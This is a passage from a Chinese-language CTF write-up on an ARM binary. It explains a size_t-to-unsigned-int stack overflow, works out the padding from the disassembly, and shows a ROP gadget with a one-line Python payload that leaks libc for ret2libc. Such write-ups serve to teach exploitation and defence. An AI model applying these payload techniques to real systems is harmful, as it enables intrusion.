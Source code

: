 在 PT 中 size 数据类型为 size_t ，在 write_diary 用 unsigned int 存储原本 -1 变成非常大的数，造成栈溢出。

![image-20210123003805545](_images/arm/image-20210123003805545.png)

### 思路

和 x86 架构下 ret2libc 的思路一样，只是不同架构 payload 需要调整。

padding 长度和 x86 一样，可以在 ida 中看出来是 50+4 ：

![image-20210123004311891](_images/arm/image-20210123004311891.png)

**注意在 arm 程序没有 ebp 这个位置的填充**，具体可以从汇编分析得出：

```
PUSH    {R11,LR};将R11+LR指向的内容压栈
ADD     R11, SP, #4;
SUB     SP, SP, #0x50;栈顶向低地址移动0x50
LDR     R3, =stdin__GLIBC_2.4;函数体开始
……
```

只有 R11 一个寄存器压栈了，所以 padding 应该为：50+4

ROPgadget 能找到合适的 gadget ：``0x00011bbc : pop {r0, pc}`` ，泄露 libc ：

```python
payload = padding+p32(gadget)+p32(got)+p32(plt)
```

